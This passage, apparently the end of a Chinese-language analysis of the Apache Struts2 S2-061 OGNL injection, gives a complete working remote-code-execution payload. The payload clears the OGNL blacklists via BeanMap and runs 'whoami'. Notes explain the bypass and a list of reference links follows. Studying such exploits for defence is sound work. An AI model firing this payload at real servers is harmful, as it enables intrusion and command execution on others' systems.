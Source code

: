 url解码后为:

```java
name=%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap')).(#stackvalue=#attr['struts.valueStack']).(#potats0.setBean(#stackvalue)).(#context=#potats0.get('context')).(#potats0.setBean(#context)).(#sm=#potats0.get('memberAccess')).(#emptySet=#UnicodeSec.newInstance('java.util.HashSet')).(#potats0.setBean(#sm)).(#potats0.put('excludedClasses',#emptySet)).(#potats0.put('excludedPackageNames',#emptySet)).(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute')).(#cmd={'whoami'}).(#res=#exec.exec(#cmd))}&age=
```

> 在 Struts2.5.20中,使用的ognl-3.1.21.jar包ognl.OgnlRuntime#getStaticField调用了isAccessible方法,同时OgnlUtil中set黑名单集合等修饰符由public变成了protected.在Struts2.5.22+中,ognl.OgnlRuntime#invokeMethod方法调用时屏蔽了常用的类,即便将黑名单绕过去了当方法调用时仍会判断是否是这些常用的类.同时struts-default.xml中定义的黑名单再次增加.相当于之前的payload所用的绕过方式都不能用了,比如使用@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS获得DefaultMemberAccess实例、使用#attr['struts.valueStack'].context获得上下文环境、通过容器创建实例等.

> org.apache.tomcat.InstanceManager是使用其默认实现类DefaultInstanceManager的newInstance方法来创建实例.

> org.apache.commons.collections.BeanMap是通过BeanMap#setBean方法将类实例存入BeanMap中,然后存入的同时进行初始化,将其set、get方法存入当前的writeMethod、readMethod集合中.通过BeanMap#get方法可以在当前bean的readMethod集合中找到对应get方法,再反射调用该方法返回一个对象.通过BeanMap#put方法可以在当前bean的writeMethod集合中找到对应set方法,再反射调用该方法.

> S2-061的payload又使用了新的方法,首先从application中获得DefaultInstanceManager实例,调用newInstance方法获得BeanMap实例.接着先将OgnlValueStack存入BeanMap中,通过get方法可以获得OgnlContext实例,获得OgnlContext实例就可以通过其获得MemberAccess实例,接着可以通过put方法调用set方法,将其黑名单置空,黑名单置空后就可以创建一个黑名单中的类实例来执行命令了.

## 参考

> https://www.cnblogs.com/mistor/p/6129682.html

> https://wooyun.js.org/drops/OGNL%E8%AE%BE%E8%AE%A1%E5%8F%8A%E4%BD%BF%E7%94%A8%E4%B8%8D%E5%BD%93%E9%80%A0%E6%88%90%E7%9A%84%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html

> https://milkfr.github.io/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/2019/04/02/analysis-struts2-ognl-rce-3/

> https://mp.weixin.qq.com/s/RSs7MxolwGhjtENfNx1oTg

> https://lucifaer.com/2019/01/16/%E6%B5%85%E6%9E%90OGNL%E7%9A%84%E6%94%BB%E9%98%B2%E5%8F%B2/#1-3-valueStack

> https://www.freebuf.com/vuls/217482.html

> http://j0k3r.top/2020/08/19/java-ognl/#0x04-%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87%E4%B8%8E%E9%98%B2%E5%BE%A1